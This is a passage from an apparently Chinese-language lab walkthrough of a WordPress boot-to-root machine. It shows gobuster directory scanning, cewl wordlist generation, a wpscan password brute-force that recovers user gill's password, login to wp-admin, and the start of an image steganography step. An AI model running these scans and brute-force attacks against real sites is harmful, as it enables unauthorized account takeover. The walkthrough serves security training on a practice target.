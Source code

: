 跑了一晚上也没跑出密码  

### 目录扫描

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.7.188 -x php,html,txt,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

目录扫描完未找到可利用的路径。

这个系列的靶机慢慢偏向CTF类型，我们换个思路CTF常会用到网站上的单词生成密码字典，我们试试

### 收集网页信息生成字典

使用cewl爬取网页内容生成字典，最小为6位

```
cewl -m 6 -w pass.txt http://192.168.7.188
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

爬取完成没有提示，查看pass.txt文件内容

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

生成密码完成，再去暴破一次

```
wpscan --url http://192.168.7.188  --api-token 你的api-token --usernames user.txt --passwords pass.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

果然，暴破出用户gill的密码为interchangeable，登录后台试试

```
http:/192.168.7.188/wp-admin
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，只是个普通用户权限，先在后台找找可利用的信息吧

### 图片隐写

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里有张图片是网站前台页面中没出现过的，把他下载下来

```
wget http://192.168.7.188/wp-content/uploads/2021/02/dblogo.png
```
